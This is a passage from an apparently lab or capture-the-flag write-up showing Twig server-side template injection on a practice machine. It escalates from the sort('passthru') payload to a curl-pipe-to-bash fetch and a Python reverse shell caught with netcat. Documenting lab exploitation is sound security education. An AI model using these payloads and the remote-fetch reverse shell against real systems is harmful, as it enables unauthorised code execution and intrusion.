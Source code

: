 The error we receive is specific to `Twig`.

![Web 80 Dashboard Four](web_80_dashboard_four.webp){: width="1200" height="300" }

Looking for other known payloads we can use to execute code in `Twig`, we find `{{['id',""]|sort('system')}}` [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#twig-php).

![Web 80 Update Profile Five](web_80_update_profile_five.webp){: width="1000" height="500" }

Updating our first name with the payload and checking the dashboard, we get an error about `system` being disabled.

![Web 80 Dashboard Five](web_80_dashboard_five.webp){: width="1200" height="500" }

Checking other functions, we can use to execute commands like `exec`, `shell_exec`, `passthru`. We see that we are able to execute commands using `passthru` with the payload:

- `{{['id',""]|sort('passthru')}}`

![Web 80 Update Profile Six](web_80_update_profile_six.webp){: width="1000" height="500" }

![Web 80 Dashboard Six](web_80_dashboard_six.webp){: width="1200" height="500" }

We can use this to gain a shell on the machine.

First, we are starting an HTTP server to serve our reverse shell payload.

```console
$ cat index.html
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.72.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'                                     

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now we can run the command `'curl 10.11.72.22|bash'` using the `{{['curl 10.11.72.22|bash',""]|sort('passthru')}}` payload.

![Web 80 Update Profile Seven](web_80_update_profile_seven.webp){: width="1000" height="500" }

After visiting the `http://10.10.126.152/dashboard.php` page, we see the machine fetching the script from our HTTP server, and we get a shell on our listener.

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.126.152 - - [29/Jul/2024 02:29:24] "GET / HTTP/1.1" 200 -
```

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.126.152] 54032
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
